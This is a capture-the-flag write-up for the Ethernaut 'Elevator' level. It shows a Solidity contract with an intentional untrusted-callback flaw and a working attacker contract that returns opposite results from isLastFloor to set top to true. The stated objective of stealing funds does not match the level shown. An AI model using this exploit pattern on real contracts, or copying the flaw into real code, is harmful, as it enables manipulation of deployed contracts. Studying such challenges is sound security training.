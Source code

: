 # Ethernaut: 11. Elevator

> This elevator won't let you reach the top of your building. Right?

**Objective of CTF:**

- Steal all the funds from the contract.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

In this level, we will write the `Builder` contract which the elevator interacts with. However, in the same transaction we will return opposite boolean results for `isLastFloor` function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
  bool toggleMe = true;

  function isLastFloor(uint) external returns (bool) {
    toggleMe = !toggleMe;
    return toggleMe;
  }

  function callElevator(address _elevator) public {
    Elevator(_elevator).goTo(1);
  }

}
```

The problem here is that Elevator did not specify `isLastFloor` to be a `view` function, which would prevent us from modifying the state like this. Another attack approach would be to return different results depending on the input data _without_ modifying state, such as via `gasLeft()`.
